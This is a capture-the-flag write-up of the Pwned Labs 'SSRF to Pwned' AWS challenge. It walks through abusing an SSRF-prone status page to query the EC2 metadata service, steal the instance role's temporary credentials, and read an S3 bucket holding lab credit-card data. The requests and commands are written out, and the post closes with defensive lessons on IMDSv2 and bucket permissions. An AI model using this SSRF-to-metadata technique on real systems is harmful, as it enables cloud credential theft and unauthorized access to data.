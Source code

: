 ```yaml
---
title: "Pwned Labs - SSRF to Pwned"
date: 2024-02-04
categories: [AWS, Cloud, Security]
tags: [AWS, Security, EC2]
---
```


![Intro](/images/PwnedLabs/SSRF/8.png)

Hey everyone! It's time for another AWS Security challenge write-up. This time, we will be solving the [SSRF to Pwned](https://pwnedlabs.io/labs/ssrf-to-pwned) challenge. When we begin the lab, we are provided by an IP address as an entry point so let's start with that.

A Nmap scan reveals port 80 is open, so let's explore what's running there. Also, observe that the nmap also returned `ec2-52-6-119-121.compute-1.amazonaws.com` which indicates that this is a IP of an EC2 server.
```
nmap 52.6.119.121
Nmap scan report for ec2-52-6-119-121.compute-1.amazonaws.com (52.6.119.121)                                            
Host is up (0.21s latency).                                                                                             
Not shown: 998 filtered ports                                                                                           
PORT    STATE  SERVICE                                                                                                  
80/tcp  open   http                                                                                                     
443/tcp closed https
```

When I tried to open the IP in the browser, it redirects to `hugelogistics.pwn`.  We first need to add the following entry in our hosts file then we can browse the website in our browser. I added the following entry in the `C:\Windows\System32\drivers\etc\hosts` file. In case of Linux systems, you can add the entry in `/etc/hosts` file. 
```
52.6.119.121 hugelogistics.pwn
```
Now, when we load the site `hugelogistics.pwn` in our browser, we see the following site. 

![Intro](/images/PwnedLabs/SSRF/0.png)

While looking at the source code of the website, we can notice that this static website is hosted using S3 bucket hosting, and the bucket name is `huge-logistics-storage`. 

![Intro](/images/PwnedLabs/SSRF/source.png)

We can observe that the bucket is publicly accessible, and contains the flag in the `backup` folder. But, we do not have permission to read the `flag.txt`. 
```
$ aws s3 ls s3://huge-logistics-storage --no-sign-request
                           PRE backup/
                           PRE web/

$ aws s3 ls s3://huge-logistics-storage/backup/ --no-sign-request
2023-06-01 03:44:05          0
2023-06-01 03:44:47       3717 cc-export2.txt
2023-06-01 20:08:27         32 flag.txt

$ aws s3 cp s3://huge-logistics-storage/backup/flag.txt - --no-sign-request
download failed: s3://huge-logistics-storage/backup/flag.txt to - An error occurred (403) when calling the HeadObject operation: Forbidden
```
Switching back to my browser, I started exploring the site and found a Status Check functionality, this functionality passes a parameter called "name" with the value `hugelogisticstatus.pwn`. The response is the Status Page as shown below. The first thing that comes to mind when you see this kind of functionality is SSRF.

![Intro](/images/PwnedLabs/SSRF/1.png)

So, without taking more time, I quickly passed the Instance Meta-data Service (IMDS) IP `http://169.254.169.254` to the name parameter. We can notice in the response, we are getting the data.

> There have been numerous cloud data breaches caused because an attacker was able to get the Role credentials attached to EC2 instances by exploiting vulnerabilities such as SSRF or RCE. This occurs because when exploiting a vulnerability like SSRF, an attacker can send requests to internal infrastructure. Each EC2 instance has a service called Instance Meta-data service (IMDS) attached to it. The Instance Metadata Service (IMDS) in AWS is a service that provides information about an Amazon Elastic Compute Cloud (EC2) instance, accessible at 169.254.169.254. It enables EC2 instances to retrieve metadata about themselves,
such as instance ID, IP address, security group information, and most importantly, the IAM credentials provided to the instance via the EC2 Instance Profile Role.\
You can obtain the temporary AWS credentials by sending a request to : 
`curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<instance-role>`\
If an application running on an EC2 instance was vulnerable to SSRF attacks, attackers could exploit the vulnerability to exfiltrate the IAM credentials through the IMDSv1 endpoint, which are granted to the instance via IAM Instance Profile Role. With the stolen temporary security credentials, attackers could escalate their privileges and gain unauthorized access to other AWS resources, including S3 buckets, databases, or launch further attacks within the victim’s environment.\ 
To enhance security for the IMDS endpoint, AWS introduced IMDSv2, implementing a small yet crucial change in the way IMDS was accessed. Instead of allowing access without authentication, IMDSv2 enforces the fetching of a token that is then used to authenticate all requests made to the IMDS endpoint. This measure significantly reduces the risk of unauthorized access through SSRF vulnerabilities.
And, if in any scenario an attacker is able to extract these temporary credentials, AWS GuardDuty (if enabled) sends an alert notifying you about the incident. For example, below two alerts:
> - UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.InsideAWS
> - UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.OutsideAWS\
> InsideAWS : If an attacker manages to retrieve temporary credentials from your server and exports them to their own EC2 instance for further use, AWS GuardDuty will raise an alert, notifying you that someone is utilizing your credentials from within the AWS netowrk.\
OutsideAWS : If an attacker manages to retrieve temporary credentials from your server and exports them in the terminal of their system for further use, AWS GuardDuty will raise an alert, notifying you that someone is utilizing your credentials from outside the AWS network.

![Intro](/images/PwnedLabs/SSRF/2.png)

We were able to successfully obtain the temporary credentials by opening `http://hugelogistics.pwn/status/status.php?name=169.254.169.254/latest/meta-data/iam/security-credentials/MetapwnedS3Access`, here you should note that the role attached to the EC2 server is "MetapwnedS3Access".

![Intro](/images/PwnedLabs/SSRF/3.png)

We know once we get the AWS Credentials, our next step is to configure them into our AWS profile. But, this time we also have a token alongside AWS Access Key and Secret Key, we can configure those as shown below.

![Intro](/images/PwnedLabs/SSRF/5.png)

Or you can also export these credentials into your environment variables to use them further. 
```
$ export AWS_ACCESS_KEY_ID=key
$ export AWS_SECRET_ACCESS_KEY=key
$ export AWS_SESSION_TOKEN=token
```
We can observe that we have assumed the role MetapwnedS3Access, along with the EC2 instance id `i-0199bf97fb9d996f1` the role is attached to. This command below is basically `whoami` command in context of AWS.

```
$ aws sts get-caller-identity --profile ssrf
{
    "UserId": "AROARQVIRZ4UCHIUOGHDS:i-0199bf97fb9d996f1",
    "Account": "104506445608",
    "Arn": "arn:aws:sts::104506445608:assumed-role/MetapwnedS3Access/i-0199bf97fb9d996f1"
}
```
Now, we have everything configured and working, so let us try to list the bucket objects with the recently obtained credentials. 

```
$ aws s3 ls huge-logistics-storage --profile ssrf
                           PRE backup/
                           PRE web/

$ aws s3 ls s3://huge-logistics-storage/backup/ --profile ssrf
2023-06-01 03:44:05          0
2023-06-01 03:44:47       3717 cc-export2.txt
2023-06-01 20:08:27         32 flag.txt
```
We notice a file called `cc-export2.txt`, which contains data of bunch of credit card. We will use them for carding later /s.  

![Intro](/images/PwnedLabs/SSRF/7.png)

Let's obtain the flag and finish the challenge.
```
$ aws s3 cp s3://huge-logistics-storage/backup/flag.txt - --profile ssrf
282f0[.............]7110
```

## Lessons Learned
1. Do not keep your confidential data in public buckets.
2. Assign proper permissions on the buckets and objects defining who can access your data, keeping in mind the Least privilege policy model.
3. Migrate all your previous EC2, ECS, EKS instances to IMDSv2 service.
4. With the latest announcement in the last re:Invent, all the new EC2 instances will be on IMDSv2 by default, but you should write a SCP to make sure nobody can change the configuration back to IMDSv1.  